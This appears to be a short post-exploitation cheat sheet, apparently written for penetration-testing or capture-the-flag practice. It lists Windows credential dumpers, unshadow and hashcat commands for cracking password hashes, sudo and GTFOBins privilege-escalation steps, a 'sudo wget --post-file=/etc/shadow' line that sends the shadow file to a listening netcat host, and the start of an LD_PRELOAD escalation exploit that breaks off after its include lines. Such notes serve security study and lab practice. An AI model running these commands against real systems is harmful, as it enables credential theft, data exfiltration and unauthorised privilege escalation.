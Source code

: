 ```dirsearch -u <url>```

https://github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List 

    /bin/netstat -ano - to get open connections, maybe to get access to different networks

Search for flags as well

*Windows Post Exploitation*

    pwdump7

https://www.tarasco.org/security/pwdump_7/ 

    locate in Kali and transfer these files
    fgdump
    wce

*Unshadow*

Try to decrypt passwd and shadow file

    unshadow PASSWORD-FILE SHADOW-FILE

remove everything expect the users 

*Hashcat*

Identifiy the Algorithmus used for account creation
https://hashcat.net/wiki/doku.php?id=example_hashes

    hashcat64.exe -m Algorithm_Type_number cred.txt rockyou.txt -O
    for example (1800)

*GTFOBins*

Show what a user is allowed to execute as sudo without giving a password

    sudo -l

Exploit what is possible with that - search for GTFOBins 
https://gtfobins.github.io/ 
Use to escalate

*wget - Push /etc/shadow to remote location*

    sudo wget --post-file=/etc/shadow <IP>:<PORT>

Receive the file in NetCat

    nc -nvlp <PORT>

*LD_PRELOAD*

if sudo -l gives you back and you have at least one entry that allows sudo without pw

    env_keep+=LD_PRELOAD

create a file - shell.c - with the following content to escalate

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

```